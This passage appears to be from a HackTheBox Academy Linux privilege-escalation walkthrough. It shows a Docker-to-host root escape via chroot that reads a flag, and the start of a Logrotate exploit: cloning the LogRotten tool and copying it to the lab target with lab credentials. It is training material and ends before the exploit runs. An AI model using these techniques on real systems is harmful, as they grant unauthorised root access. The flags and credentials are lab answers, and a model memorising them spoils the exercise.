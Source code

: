 By using the `chroot` command to modify the container's root directory to match the host's, followed by executing `bash` within the container, a root shell is initialized and students can read the flag:

Code: shell

```shell
cat /root/flag.txt
```

```
root@bdf770b635d6:/# cat /root/flag.txt

HTB{D0ck3r_Pr1vE5c}
```

Answer: `HTB{D0ck3r_Pr1vE5c}`

# Logrotate

## Question 1

### "Escalate the privileges and submit the contents of flag.txt as the answer"

Students first need to clone the repository for LogRotten and transfer it to the target using `scp` and the credentials `htb-student:HTB_@cademy_stdnt!`:

Code: shell

```shell
git clone https://github.com/whotwagner/logrotten.git
scp -r logrotten/ htb-student@STMIP:~/
```

```
┌─[eu-academy-1]─[10.10.15.63]─[htb-ac-594497@htb-h5qyjhxa2m]─[~]
└──╼ [★]$ git clone https://github.com/whotwagner/logrotten.git

Cloning into 'logrotten'...
remote: Enumerating objects: 103, done.
remote: Counting objects: 100% (16/16), done.
remote: Compressing objects: 100% (14/14), done.
remote: Total 103 (delta 7), reused 5 (delta 2), pack-reused 87
Receiving objects: 100% (103/103), 437.20 KiB | 7.05 MiB/s, done.
Resolving deltas: 100% (44/44), done.

┌─[eu-academy-1]─[10.10.15.63]─[htb-ac-594497@htb-h5qyjhxa2m]─[~]
└──╼ [★]$ scp -r logrotten/ htb-student@10.129.204.41:~/

htb-student@10.129.204.41's password: 
logrotten.c       100% 7508     2.0MB/s   00:00
logrotate.cfg     100%   89    41.4KB/s   00:00
create_env.sh     100%  839   405.2KB/s   00:00
pwnme.log

<SNIP>
100%  195KB  31.4MB/s   00:00
exclude           100%  240   110.6KB/s   00:00 
```
